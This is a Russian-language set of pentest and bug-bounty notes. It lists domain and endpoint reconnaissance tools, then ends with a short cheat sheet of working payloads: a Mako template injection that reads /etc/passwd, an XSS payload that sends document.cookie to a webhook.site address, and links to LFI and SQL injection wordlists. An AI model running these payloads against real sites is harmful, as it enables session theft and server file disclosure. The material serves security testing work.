 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

- DNS PTR-поиски
- Альтернативные имена субъектов (SAN) в SSL-сертификатах
- Общие имена (CN) в SSL-сертификатах

https://github.com/projectdiscovery/httpx

httpx— это быстрый и многоцелевой HTTP-инструментарий, позволяющий запускать несколько тестов с помощью библиотеки retryablehttp . Он разработан для обеспечения надёжности результатов при увеличении числа потоков.

https://github.com/xnl-h4ck3r/waymore

Идея waymore заключается в том, чтобы найти еще больше ссылок с помощью Wayback Machine, чем с помощью других существующих инструментов.

👉 Самое большое отличие waymore от других инструментов заключается в том, что он также может загружать архивные ответы для URL-адресов на wayback machine, чтобы вы могли затем искать в них еще больше ссылок, комментариев разработчиков, дополнительных параметров и т. д. и т. п. 👉 Кроме того, другие инструменты в настоящее время не справляются с ограничением скорости, которое сейчас устанавливают источники, и часто просто останавливаются с неполными результатами и не сообщают вам об этом.

https://github.com/xnl-h4ck3r/xnLinkFinder

Это инструмент, используемый для обнаружения конечных точек (и потенциальных параметров) заданной цели. Он может найти их следующим образом:

сканирование цели (передача домена/URL)
сканирование нескольких целей (передача файла доменов/URL-адресов)
поиск файлов в заданном каталоге (передать имя каталога)
поиск по содержимому одного файла
получить их из проекта Burp (передать расположение XML-файла Burp)
получить их из проекта ZAP (передать местоположение файла сообщений ZAP ASCII)
получить их из проекта Caido (передать расположение файла CSV экспорта Caido)
обработка каталога результатов waymore (поиск архивных файлов ответов waymore -mode R, а также запрос URL-адресов waymore.txtи исходных URL-адресов waymore_index.txt- см. waymore README.md )
Скрипт на Python основан на возможностях поиска ссылок моего расширения Burp GAP . В качестве отправной точки я взял замечательный инструмент LinkFinder от Gerben Javado и использовал регулярное выражение для поиска ссылок, но с дополнительными улучшениями, позволяющими находить ещё больше ссылок.

# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters
Лежат в файле https://github.com/felixsta/hack_tips/blob/main/Top_25_LFI_Parameters
##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/
https://pentestmonkey.net/category/cheat-sheet/sql-injection



